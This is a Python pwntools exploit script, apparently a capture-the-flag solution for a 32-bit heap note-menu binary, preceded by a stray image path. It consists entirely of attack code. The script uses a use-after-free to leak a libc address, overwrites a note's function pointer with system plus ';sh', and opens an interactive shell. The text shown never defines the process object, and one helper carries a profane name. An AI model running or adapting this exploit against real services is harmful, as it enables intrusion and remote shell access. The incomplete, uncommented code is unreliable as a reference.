 ```python
    libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
        if "libc.so.6" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x8048A38
    b *0x0804893D
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("Your choice :",str(idx))
def add(size,content):
    menu(1)
    a.sendlineafter("Note size :",str(size))
    a.sendafter("Content :",str(content))
    return 

def delete(idx):
    menu(2)
    a.sendlineafter("Index :",str(idx))
    return 
    
def edit(idx,content):
    return 
    
def show(idx):
    menu(3)
    a.sendlineafter("Index :",str(idx))
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33

add(0x80,"aaa")#0
add(0x8,"aaa")#1
delete(0)
add(0x68,"a")#2
#debug()
show(2)
libc_base = u32(a.recv(4)) - 0x1b3761 -0x100
fuck(libc_base)

delete(1)
delete(2)
payload = p32(libc_base + libc.sym["system"]) + ";sh"
#debug()
add(0x8,payload)#3
show(1)
a.interactive()
```

